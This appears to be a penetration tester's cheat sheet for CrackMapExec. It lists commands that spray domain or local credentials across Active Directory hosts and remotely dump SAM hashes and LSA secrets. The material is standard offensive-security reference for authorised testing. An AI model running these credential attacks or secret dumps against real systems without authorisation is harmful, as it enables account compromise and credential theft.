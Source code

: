 # [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)

> "A swiss army knife for pentesting networks." Especially useful for Active Directory environments.

---

## Pass a domain credential to a target to check for access

- `$TARGET`
  - Hostname
  - IP address
  - CIDR range
- `$USERNAME`
  - Single username
  - File of usernames, one per line
- `$PASSWORD`
  - Single password
  - File of passwords, one per line
- `$DOMAIN`
  - Active Directory domain name

```bash
crackmapexec smb $TARGET -d $DOMAIN -u $USERNAME -p $PASSWORD
```

- A successful credential pair will be highlighted in **green**
- A successful credential pair that also has remote access (via wmiexec, evil-winrm, etc.) will be highlighted in **green** and designated ***Pwned***

---

## Pass a local credential to a target to check for access

- `$TARGET`
  - Hostname
  - IP address
  - CIDR range
- `$USERNAME`
  - Single username
  - File of usernames, one per line
- `$PASSWORD`
  - Single password
  - File of passwords, one per line

```bash
crackmapexec smb $TARGET -u $USERNAME -p $PASSWORD --local-auth
```

- A successful credential pair will be highlighted in **green**
- A successful credential pair that also has remote access (via wmiexec, evil-winrm, etc.) will be highlighted in **green** and designated ***Pwned***

---

## Remotely dump SAM hashes

```bash
crackmapexec smb $TARGET [-d $DOMAIN] -u $USERNAME -p $PASSWORD [--local-auth] --sam
```

---

## Remotely dump LSA secrets

```bash
cme smb $TARGET [-d $DOMAIN] -u $USERNAME -p $PASSWORD [--local-auth] --lsa
```
